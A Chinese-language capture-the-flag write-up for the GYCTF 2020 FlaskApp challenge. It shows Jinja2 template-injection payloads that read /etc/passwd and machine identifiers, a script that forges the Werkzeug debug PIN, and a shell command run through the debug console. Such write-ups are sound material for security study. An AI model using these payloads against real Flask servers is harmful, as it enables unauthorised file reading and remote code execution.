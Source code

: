 # GYCTF 2020

## FlaskApp

进入是个Flask的base64加密解密页面

考虑SSTI咯

试了一下``base64decode(base64encode({{1+1}}))``会返回2

然后就开始找

```python
{{().__class__.__bases__[0].__subclasses__()[0].__init__}}
````

哪个被重载

75可以用

```
结果 ： &lt;function _ModuleLock.__init__ at 0x7f070fc12290&gt;
```

然后就是``__globals__.__builtins__[]``

发现eval不能用,用open可以读,但是似乎flag也被过滤了，

```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']("/etc/passwd").read()}}
```

这个时候也发现存在报错界面，提示了是在调试模式，考虑拿Flask的PIN

需要拿到：
> username:就是启动这个Flask的用户
>
> modname为flask.app
>
> getattr(app, '__name__', getattr(app.__class__, '__name__'))为Flask
>
> getattr(mod, '__file__', None)为flask目录下的一个app.py的绝对路径
>
>uuid.getnode()就是当前电脑的MAC地址，str(uuid.getnode())则是mac地址的十进制表达式
>
>get_machine_id() /etc/machine-id或者 /proc/sys/kernel/random/boot_i中的值
> 
>假如是在win平台下读取不到上面两个文件，就去获取注册表中SOFTWARE\\Microsoft\\Cryptography的值
>假如是Docker机 那么为 /proc/self/cgroup docker行

通过``open().read()``拿到这些值

```
username: flaskweb // /etc/passwd
modname: flask.app
getattr(app, '__name__', getattr(app.__class__, '__name__')):Flask
getattr(mod, '__file__', None): /usr/local/lib/python3.7/site-packages/flask/app.py //报错信息
uuid.getnode():  str(02:42:ae:01:17:04)=2485410404100 // /sys/class/net/eth0/address
get_machine_id(): b7372b2e7d533d8845c8f8d5aa5086ad9f8d5e16693d990ffe49ed4f55c190fd // /proc/self/cgroup
```

跑脚本

```
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.7/site-packages/flask/app.py',
]

private_bits = [
    '2485410404100',
    'b7372b2e7d533d8845c8f8d5aa5086ad9f8d5e16693d990ffe49ed4f55c190fd'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

然后再报错界面就可以执行任意代码了

```
import os
os.popen("ls /").read()
```

## 参考资料

Flask debug pin安全问题：

https://xz.aliyun.com/t/2553
